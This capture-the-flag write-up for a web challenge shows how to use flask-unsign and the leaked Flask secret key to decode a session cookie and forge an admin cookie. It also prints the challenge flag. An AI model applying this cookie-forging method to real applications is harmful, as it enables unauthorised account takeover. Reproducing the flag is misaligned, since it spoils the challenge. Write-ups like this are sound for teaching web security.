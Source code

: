# Tommy's Artventures

Author: neonlian

Category: web

## Solution

To get the flag for this challenge, you need to navigate to the /curate page while logged in as 'admin'. You are given the secret key to the Flask server which allows you to forge cookies.

I will use the [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) tool to decrypt and encrypt cookies for this solution.

First, register your own account and look at the 'session' cookie in your browser. On Chrome, you can see cookies by going to `three dot menu > More Tools > Developer Tools (Ctrl+Shift+I) > Application tab > Cookies > https://usc-tommyartventures.chals.io`.

It should look like this:
```
eyJ1c2VyIjoibmVvbmxpYW4ifQ.ZynMPw.VsKcaTTTkbRDwtPMMfpTbt8kKEk
```

Using the provided secret key, we can decrypt the session cookie:
```
> flask-unsign --unsign --secret "4a6282bf78c344a089a2dc5d2ca93ae6" --cookie "eyJ1c2VyIjoibmVvbmxpYW4ifQ.ZynMPw.VsKcaTTTkbRDwtPMMfpTbt8kKEk"
[*] Session decodes to: {'user': 'neonlian'}
```

Now we know that the cookie is a JSON object with a single field named 'user'. Let's encrypt a new session cookie that makes us admin:
```
> flask-unsign --sign --secret "4a6282bf78c344a089a2dc5d2ca93ae6" --cookie "{'user': 'admin'}"
eyJ1c2VyIjoiYWRtaW4ifQ.ZynNuw.hP1OTxkOLMNFnT95wcx_RSWFnlM
```

Replace the 'session' cookie in your browser with the new one. On Chrome, do this by right clicking the current cookie value and choosing `Edit "Value"`. Then go to /curate to collect your flag!

```
CYBORG{oce4n5_auth3N71ca7i0N}
```